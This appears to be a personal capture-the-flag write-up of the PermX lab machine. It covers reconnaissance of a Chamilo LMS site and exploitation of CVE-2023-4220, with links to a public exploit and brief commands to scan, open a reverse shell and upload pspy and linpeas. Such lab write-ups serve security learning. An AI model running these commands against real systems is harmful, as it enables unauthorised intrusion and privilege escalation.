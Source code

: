 **Target:**
```php
10.10.11.23
```

Nmap reveals port 80 with a webpage.

Gobuster doesn't find any directories so i try a subdomain search and find `lms`

I add both addresses to the host file:
`permx.htb` and `lms.perx.htb`

This takes me to a login page.

Wappalyzer shows php as one of the services as well as apache which lines up with the namp scan. 

I try telling the app that i lost my password for user admin, which gives me a possible username:
`This platform was unable to send the email. Please contact [Davis Miller](mailto:admin@permx.htb) for more information.`

Find robot.txt with gobuster on the lms subdomain

```php
# robots.txt
User-Agent: *
# Directories
Disallow: /app/
Disallow: /bin/
Disallow: /documentation/
Disallow: /home/
Disallow: /main/
Disallow: /plugin/
Disallow: /tests/
Disallow: /vendor/
# Files
Disallow: /license.txt
Disallow: /README.txt
Disallow: /whoisonline.php
Disallow: /whoisonlinesession.php
```


Administrator : [Davis Miller](mailto:admin@permx.htb)
[Powered by Chamilo](http://lms.permx.htb/) © 2024

**/documentation:**
Chamilo 1.11 - Documentation

Exploits:
https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS

https://starlabs.sg/advisories/23/23-4220/

I check the vulnerable path to see if it exposes any files:

http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/

![[Pasted image 20240831123247.png]]

Exploit:

```php
python3 main.py -u http://lms.permx.htb/ -a scan
```

Webshell
```php
python3 main.py -u http://example.com/chamilo -a revshell
```

I transfer `pspy` and `linpeas.sh` to the WebServer.



